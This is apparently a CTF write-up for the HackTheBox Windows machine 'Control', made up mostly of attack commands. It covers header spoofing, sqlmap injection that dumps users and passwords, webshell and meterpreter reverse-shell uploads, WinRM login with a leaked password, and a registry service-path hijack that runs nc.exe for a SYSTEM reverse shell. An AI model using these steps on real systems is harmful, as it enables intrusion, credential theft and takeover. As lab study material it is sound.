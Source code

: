 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/SZr1cQTSB-A/0.jpg
layout: post
media_subpath: /assets/posts/2020-04-02-control-hackthebox
tags:
- hackthebox
- registry
- service
- sql injection
- windows
title: Control @ HackTheBox
---
```


Control is a 40-point windows machine on hackthebox that involves a sql injection which we use to upload a webshell. Then we modify the path of a service executable in the registry to become system.

{% youtube SZr1cQTSB-A %}

## Notes

Header:

```
X-Forwarded-For: 192.168.4.28
```

SQL-Injection:

```
POST /view_product.php HTTP/1.1
Host: control.htb
User-Agent: xct
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://control.htb/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productId=32
```

```
sqlmap -r req.txt --level 5 --risk 3 --batch
sqlmap -r req.txt --level 5 --risk 3 --batch --users
sqlmap -r req.txt --level 5 --risk 3 --batch --passwords
```

[p0wny-shell](https://github.com/flozz/p0wny-shell):

```
sqlmap -r req.txt --level 5 --risk 3 --batch --file-write p0wny-shell/shell.php --file-dest 'c:\inetpub\wwwroot\xct_shell.php'
```

Metasploit:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.php
sqlmap -r req.txt --level 5 --risk 3 --batch --file-write shell.php --file-dest 'c:\inetpub\wwwroot\xct_msf.php'
portfwd add -l 5985 -p 5985 -r <ip>
```

WinRM:

```
$user = "Fidelity\\Hector"
$password = "l33th4x0rhector"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $user,$securePassword
New-PSSession -URI http://localhost:5985/wsman -Credential $credential 
```

Registry:

```
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "Hector Users Path"
Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\programdata\xct\nc.exe <ip> <port> -e cmd" /f
Start-Service wuauserv
```
